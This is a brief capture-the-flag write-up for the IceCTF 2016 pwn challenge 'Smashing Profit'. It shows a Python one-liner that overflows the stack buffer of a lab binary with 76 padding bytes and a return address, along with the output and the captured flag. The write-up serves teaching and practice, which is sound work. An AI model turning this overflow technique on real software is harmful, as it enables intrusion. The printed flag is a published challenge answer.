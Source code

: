 ```yaml
---
layout: post
title: Smashing Profit - IceCTF 2016 (60 pts)
description: Challenge Smashing Profit of IceCTF 2016
keywords: smashing, profit, icectf, pwn, 2016,
tags: [IceCTF]
---
```


* **CTF:** IceCTF 2016
* **Challenge:** Smashing Profit (60 pts)
* **Category:** Pwn
* **Solved by:** RTFM[ChOkO] 

****  
>Description: N/A  
****  


```bash
╭─ctf-40870@icectf-shell-2016 /home/profit  
╰─➤  python -c 'print "A" * 76 + "\x0b\x85\x04\x08"' | ./profit
Smashing the stack for fun and...?
IceCTF{who_would_have_thunk?}
[1]    21322 done                          python -c 'print "A" * 76 + "\x0b\x85\x04\x08"' | 
       21324 illegal hardware instruction  ./profit
IceCTF{who_would_have_thunk?}
```

**Flag:** IceCTF{who_would_have_thunk?}
